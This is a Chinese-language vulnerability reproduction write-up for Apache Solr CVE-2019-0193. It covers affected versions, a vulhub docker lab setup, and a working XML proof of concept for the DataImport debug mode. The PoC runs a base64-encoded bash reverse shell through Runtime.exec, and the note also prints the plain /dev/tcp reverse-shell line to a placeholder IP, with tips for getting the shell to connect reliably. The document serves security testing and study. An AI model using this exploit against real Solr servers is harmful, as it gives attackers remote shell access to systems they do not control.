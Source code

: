 # Apache Solr 远程执行漏洞 CVE-2019-0193

## 漏洞描述 

2019 年 08 月 01 日，Apache Solr 官方发布预警，Apache Solr DataImport 功能 在开启 Debug 模式时，可以接收来自请求的”dataConfig”参数，这个参数的功能与`data-config.xml` 一样，不过是在开启 Debug 模式时方便通过此参数进行调试，并且 Debug 模式的开启是通过参数传入的。在 `dataConfig` 参数中可以包含 script 恶意脚本导致远程代码执行。

## 影响版本

> [!NOTE]
>
> Apache Solr < 8.2.0

## 环境搭建

```shell
git clone https://gitee.com/yelisenyu/https-github.com-vulhub-vulhub.git
cd https-github.com-vulhub-vulhub/solr/CVE-2019-0193-RCE
docker-compose build
docker-compose up -d

# 创建一个solr核心test
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

![](http://peiqi.tech/wiki/middle/solr-1.png)

## 漏洞复现

点击刚刚创建的test进入调试

![](http://peiqi.tech/wiki/middle/solr-2.png)

将下面的POC代码填入 Debug-Mode 中

```xml
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```



注意 POC 执行的代码中的base64字符串的位置请置换成自己的ip地址并base64加密填入

>![NOTE]
>
>bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  
>
>直接如上写入反弹无反应，不稳定，需要base64加密写才能反弹一个shell

点击EXecute执行代码

![](http://peiqi.tech/wiki/middle/solr-4.png)

![](http://peiqi.tech/wiki/middle/solr-3.png)

成功反弹shell

## 参考文章

[apache solr远程代码执行漏洞(cve-2019-0193)](https://blog.csdn.net/whatday/article/details/106959989?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-4.channel_param)